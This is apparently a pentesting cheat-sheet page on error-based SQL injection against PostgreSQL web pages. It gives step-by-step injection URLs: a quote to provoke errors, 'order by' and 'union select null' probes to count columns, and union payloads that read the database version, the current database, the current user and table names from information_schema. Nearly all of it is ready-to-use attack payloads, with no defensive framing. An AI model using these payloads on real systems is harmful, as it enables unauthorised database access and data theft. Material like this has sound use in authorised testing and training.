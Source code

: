 # SQLI (PostgreSQL) | Error Based

Context URL: \
`http://example.com/example/page.php?id=3`

To test if exists SQLI Error Based, try the:

```
http://example.com/example/page.php?id='
```

If **warnings** return to you, exploit them!

Note: Common error -> **Warning: pg\_exec()**

## Testing

First, test how far the order by arrives before giving an error. Ex:&#x20;

```
http://example.com/example/page.php?id=1 order by X
```

Note: Replace the **X** with **1, 2, 3, 4...** until it stops showing pages and displays a **warning.**

### Second method

Test how far the union select arrives before giving an error. Ex:

```
http://example.com/example/page.php?id=1 union select 1,2,3,4....
```

Note: If you get an error saying it doesn't accept integer union types, test with null values. Ex:

```
http://example.com/example/page.php?id=1 union select null,null,null,null....
```

## Exploit

**Context**: 4 numbers before the error\
**Context** URL: `http://example.com/example/page.php?id=1 union select null,null,null,null`

#### To show the Postgresql version on the screen:

```
http://example.com/example/page.php?id=1 union select null,version(),null,null
```

#### To show current database name :

```
http://example.com/example/page.php?id=1 union select null,current_database(),null,null
```

#### To show current user:

```
http://example.com/example/page.php?id=1 union select null,current_user(),null,null
```

#### To show tables

```
http://example.com/example/page.php?id=1 union select null,table_name,null,null from information_schema.tables
```

Note: To see how information-schema is handled in postgree and to exploit it in more ways, have a look at the official site:

https://www.postgresql.org/docs/current/information-schema.html

